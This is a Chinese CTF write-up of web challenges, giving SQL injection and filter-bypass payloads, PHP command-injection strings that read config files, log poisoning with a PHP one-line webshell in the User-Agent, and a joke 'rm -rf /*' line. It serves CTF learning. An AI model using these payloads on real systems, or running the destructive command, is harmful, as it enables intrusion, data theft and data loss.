 # web1
sql注入漏洞
```
select * from article where id = -1 union select * from article where id=1000 order by id limit 1
```
-1前一条select无结果，否则输出前一条的结果而不是后一条的结果。
也可
```
select * from article where id=1 or id=1000 --
```
--在sql中为注释符

# web2-7
"/or|+/i" or和+号，/i表示不区分大小写

各种解法
```
?id=CAST(0x339 AS INT)
?id=2 || id = 1000
?id=125*8
?id="1000"
?id=~~1000
?id=/**/1000
?id=0b1111101000
?id=0x3e8
?id=round(999.9)
(div)?id=500 div 0.5
```



# web8
猜密码，一顿操作，去埃塞尔比亚==程序员删库跑路
rm -rf /*

# web9
```
/?c=highlight_file("./config.php");
/?c=system('cat config.php');//结果显示在源码上，不在页面上
```

# web10
passthru() , print_r(file()) ,echo 'tac config.php'
```
/?c=print_r(file("config.php"));
/?c=echo `tac config.php`;
```

# web13
?>用于闭合前面的?,可以不用;
```
/?c=echo `tac config.php`?>
```
config.php中定义了$flag,因此可以直接echo $flag

# web 16
md5解密

# web 17
include（），日志文件注入

curl -i 服务器网址

得到服务器类型为nginx

```
//nginx日志文件地址
/var/log/nginx/access.log
//apache日志文件地址
/var/log/apache/access.log
```

查看日志文件发现其中存入了每次请求的user-agent信息

用brup修改请求，在user-agent中加入一句话木马，

本题也可以直接
```
<?php system('ls');?>
<?php system('cat 36d.php');?>
```

# web22
看了wp还是不懂挖

# 获得百分百的快乐
$_GET[1],/?1=

>ls,创建一个名为ls的文件

*，以第一个文件的名字为命令执行

nl，计算行号并输出文件内容